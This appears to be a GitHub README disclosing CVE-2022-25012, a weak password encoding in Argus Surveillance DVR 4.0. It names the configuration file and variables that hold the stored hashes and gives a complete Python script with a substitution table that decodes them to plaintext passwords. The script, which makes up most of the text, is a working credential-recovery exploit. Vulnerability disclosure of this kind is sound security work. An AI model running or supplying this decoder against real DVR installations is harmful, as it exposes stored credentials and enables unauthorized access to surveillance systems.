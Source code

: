 # CVE-2022-25012

## Description:
Argus Surveillance DVR 4.0 employs a weak password encryption mechanism which can be cracked easily.

## Proof of Concept:
1. Open the configuration file `C:\ProgramData\PY_Software\Argus Surveillance DVR\DVRParams.ini`
2. Obtain the password hash from the variables `Password1`, `Password2`, etc.
3. Replace it with the contents of `pass_hash` in the below python code to obtain the clear text credential
```python
characters = {
'ECB4':'1','B4A1':'2','F539':'3','53D1':'4','894E':'5',
'E155':'6','F446':'7','C48C':'8','8797':'9','BD8F':'0',
'C9F9':'A','60CA':'B','E1B0':'C','FE36':'D','E759':'E',
'E9FA':'F','39CE':'G','B434':'H','5E53':'I','4198':'J',
'8B90':'K','7666':'L','D08F':'M','97C0':'N','D869':'O',
'7357':'P','E24A':'Q','6888':'R','4AC3':'S','BE3D':'T',
'8AC5':'U','6FE0':'V','6069':'W','9AD0':'X','D8E1':'Y','C9C4':'Z',
'F641':'a','6C6A':'b','D9BD':'c','418D':'d','B740':'e',
'E1D0':'f','3CD9':'g','956B':'h','C875':'i','696C':'j',
'906B':'k','3F7E':'l','4D7B':'m','EB60':'n','8998':'o',
'7196':'p','B657':'q','CA79':'r','9083':'s','E03B':'t',
'AAFE':'u','F787':'v','C165':'w','A935':'x','B734':'y','E4BC':'z'}

pass_hash = "418DB740F641E03B956BE1D03F7EF6419083956BECB453D1ECB4ECB4"
if (len(pass_hash)%4) != 0:
	print("[!] Error, check your password hash")
	exit()
split = []
n = 4
for index in range(0, len(pass_hash), n):
	split.append(pass_hash[index : index + n])

for key in split:
	if key in characters.keys():
		print("[+] " + key + ":" + characters[key])
	else:
		print("[-] " + key + ":Unknown")
```

## References:
- [Blog](https://deathflash1411.github.io/blog/cve-2022-25012)
- [CVE](https://www.cve.org/CVERecord?id=CVE-2022-25012)
- [Exploit-DB](https://www.exploit-db.com/exploits/50130)